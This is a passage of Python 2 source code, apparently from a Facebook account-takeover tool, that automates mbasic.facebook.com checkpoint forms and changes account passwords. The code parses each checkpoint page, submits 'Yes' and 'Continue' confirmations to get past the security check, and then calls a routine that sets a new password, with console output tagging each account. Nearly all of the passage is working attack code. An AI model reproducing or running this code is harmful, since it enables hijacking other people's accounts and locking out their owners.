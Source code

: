 									nh = sop_dev.find("input", attrs={"name": "nh"})["value"]
									payload = {}
									for dev in form:
										input = dev
										payload[input.get("name")] = input.get("value")
									payload.update({"nh": nh, "submit[Yes]": submit})
									respon_2 = ses_dev.post("https://mbasic.facebook.com"+url_post_, data=payload)
									if "password_new" in respon_2.text:
										_iqbal_dev_pw_new_(pw_new_, data, eml_dev, ses_dev, respon_2, san_dev)
										break
									else:
										sop_ = BeautifulSoup(respon_2.content, "html.parser")
										form = sop_.find("form")
										url_post = form["action"]
										nh = sop_.find("input", attrs={"name": "nh"})["value"]
										submit = sop_.find("input", attrs={"name": "submit[Continue]"})["value"]
										payloads = {}
										for dev in form:
											input = dev
											payloads[input.get("name")] = input.get("value")

										payloads.update({"submit[Continue]": submit, "nh": nh})
										respon_ = ses_dev.post("https://mbasic.facebook.com"+url_post, data=payloads)
										_iqbal_dev_pw_new_(pw_new_, data, eml_dev, ses_dev, respon_, san_dev)
										break

								elif "password_new" in respon_ttl_2.text:
									_iqbal_dev_pw_new_(pw_new_, data, eml_dev, ses_dev, respon_ttl_2, san_dev)
									break
								else:
									kondisi.append("dev")
					else:
						pass

					if len(ganti_pw) != 0:
						ganti_pw = []
						pass
					else:
						print p+data+"".join(option_)+"\n"+batas
					
				except:
					if len(bug) == 1:
						bug = []
						pass
					else:
						print data+"\n"+batas

			elif "checkpointSecondaryButton" in respon.text:
				data = data.replace("Chek", "Yes3").replace("\033[90;1m", "\033[92;1m").replace("\033[93;1m", "\033[96;1m")
				ganti_pw.append("dev")
				sop_dev = BeautifulSoup(respon.content, "html.parser")
				form = sop_dev.find("form")
				url_post_ = form["action"]
				submit = sop_dev.find("input", attrs={"name": "submit[Yes]"})["value"]
				nh = sop_dev.find("input", attrs={"name": "nh"})["value"]
				payload = {}
				for dev in form:
					input = dev
					payload[input.get("name")] = input.get("value")
				payload.update({"nh": nh, "submit[Yes]": submit})
				respon_2 = ses_dev.post("https://mbasic.facebook.com"+url_post_, data=payload)
				if san_dev == pw_new:
					pw_new_ = pw_new+"000"
				else:
					pw_new_ = pw_new